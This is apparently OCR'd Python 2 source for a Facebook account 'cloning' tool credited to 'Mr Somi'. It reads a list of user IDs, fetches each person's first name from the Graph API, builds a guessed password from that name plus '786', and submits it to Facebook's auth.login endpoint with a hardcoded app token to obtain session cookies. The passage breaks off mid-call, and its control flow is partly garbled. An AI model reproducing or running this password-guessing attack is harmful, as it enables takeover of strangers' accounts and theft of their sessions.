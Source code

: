 def pilih_login():
    peak = raw_input("\n\033[1;95mCHOOSE: \033[1;95m")
    if peak =="":
        print "\x1b[1;95mFill In Correctly"
        pilih_login()
    elif peak =="1":
        Zeek()
def Zeek():
    os.system('clear')
    print logo1
    print '\x1b[1;94m[1]  START CLONING With Somi '
    time.sleep(0.05)
    action()

def action():
    peak = raw_input('\n\033[1;95mCHOOSE:\033[1;97m')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo
        print "Enter any Pakistan Mobile code Number"+'\n'
        print 'Enter any code 1 to 49'
        try:
            c = raw_input("\033[1;96mCHOOSE : ")
            k="03"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
	
	print "\033[1;36;40m[✺] Total IDs : \033[1;97m"+str(len(id))
	jalan('\033[1;34;40m[✺] Please Wait...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;32;40m[✺] Cloning\033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;97m        ❈     \033[1;97mTo Stop Process Press CTRL+Z \033[1;97m    ❈"
	print "   \033[1;31;48m●💋══════════════════◄►══════════════════💋●"

	jalan('                    \033[1;97mMr Somi start cloning Wait...')
	print  "  \033[1;36;48m ●💋══════════════════◄►══════════════════💋●" 

	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass 
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b['first_name'] + '786'
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")